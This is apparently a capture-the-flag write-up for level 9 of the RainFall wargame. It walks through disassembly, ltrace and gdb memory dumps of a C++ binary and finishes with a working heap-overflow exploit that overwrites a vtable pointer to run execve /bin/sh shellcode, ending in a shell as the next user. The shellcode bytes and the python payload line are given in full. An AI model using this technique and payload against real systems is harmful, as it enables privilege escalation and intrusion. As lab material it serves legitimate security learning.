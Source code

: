 # LEVEL 9

First lets disassemble the main

```c
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   ebp
   0x080485f5 <+1>:     mov    ebp,esp
   0x080485f7 <+3>:     push   ebx
   0x080485f8 <+4>:     and    esp,0xfffffff0
   0x080485fb <+7>:     sub    esp,0x20
   0x080485fe <+10>:    cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    mov    DWORD PTR [esp],0x1
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    ebx,eax
   0x0804861e <+42>:    mov    DWORD PTR [esp+0x4],0x5
   0x08048626 <+50>:    mov    DWORD PTR [esp],ebx
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    DWORD PTR [esp+0x1c],ebx
   0x08048632 <+62>:    mov    DWORD PTR [esp],0x6c
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    ebx,eax
   0x08048640 <+76>:    mov    DWORD PTR [esp+0x4],0x6
   0x08048648 <+84>:    mov    DWORD PTR [esp],ebx
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    DWORD PTR [esp+0x18],ebx
   0x08048654 <+96>:    mov    eax,DWORD PTR [esp+0x1c]
   0x08048658 <+100>:   mov    DWORD PTR [esp+0x14],eax
   0x0804865c <+104>:   mov    eax,DWORD PTR [esp+0x18]
   0x08048660 <+108>:   mov    DWORD PTR [esp+0x10],eax
   0x08048664 <+112>:   mov    eax,DWORD PTR [ebp+0xc]
   0x08048667 <+115>:   add    eax,0x4
   0x0804866a <+118>:   mov    eax,DWORD PTR [eax]
   0x0804866c <+120>:   mov    DWORD PTR [esp+0x4],eax
   0x08048670 <+124>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048674 <+128>:   mov    DWORD PTR [esp],eax
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:   mov    DWORD PTR [esp],eax
   0x08048693 <+159>:   call   edx
   0x08048695 <+161>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
```

```c
0x08048464  _init
..
..
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)

```

as we see in this info func the syntax is look like the C++ so here we have a class contain those methods

```
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
```

we tried to check this program by `ltrace ./level9` and we got:

```
level9@RainFall:~$ ltrace ./level9 AAAA
__libc_start_main(0x80485f4, 2, 0xbffff7e4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
_Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) = 0x804a008
_Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) = 0x804a078
strlen("AAAA")                                = 4
memcpy(0x0804a00c, "AAAA", 4)                 = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c) = 0xb7fce4a0
+++ exited (status 11) +++
```

So here they call \_Znwj twice and return an address and then check the length and copy the input into 0x0804a00c which is the next address after 0x804a008 +4.

lets check what's happend in this code we break in the line <+136> and we print the memory.

```
0x804a008:      0x08048848      0x41414141      0x00000000      0x00000000
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
```

we found the first part is allocated for this address `0x08048848` we try to disass and we found this is a function .

```
(gdb) x/x 0x804a078
0x804a078:      0x08048848
(gdb) x/x 0x08048848
0x8048848 <_ZTV1N+8>:   0x0804873a
(gdb) disass 0x08048848
Dump of assembler code for function _ZTV1N:
   0x08048840 <+0>:     add    BYTE PTR [eax],al
   0x08048842 <+2>:     add    BYTE PTR [eax],al
   0x08048844 <+4>:     push   esp
   0x08048845 <+5>:     mov    BYTE PTR [eax+ecx*1],al
   0x08048848 <+8>:     cmp    al,BYTE PTR [edi-0x78b1f7fc]
   0x0804884e <+14>:    add    al,0x8
End of assembler dump.
```

so this program allocate the memory and then call this function so what we gonna do in this case we will add a shell code and instead of call this function the program will call the shell code.

Shell Code 21:

`\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

and we got the flag

```
level9@RainFall:~$ python -c "print '\x08\x04\xa0\x28'[::-1] + '\x90' * 83 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\x0c\xa0\x04\x08'" >  test

level9@RainFall:~$ ./level9 `cat test`

$ whoami

bonus0
```
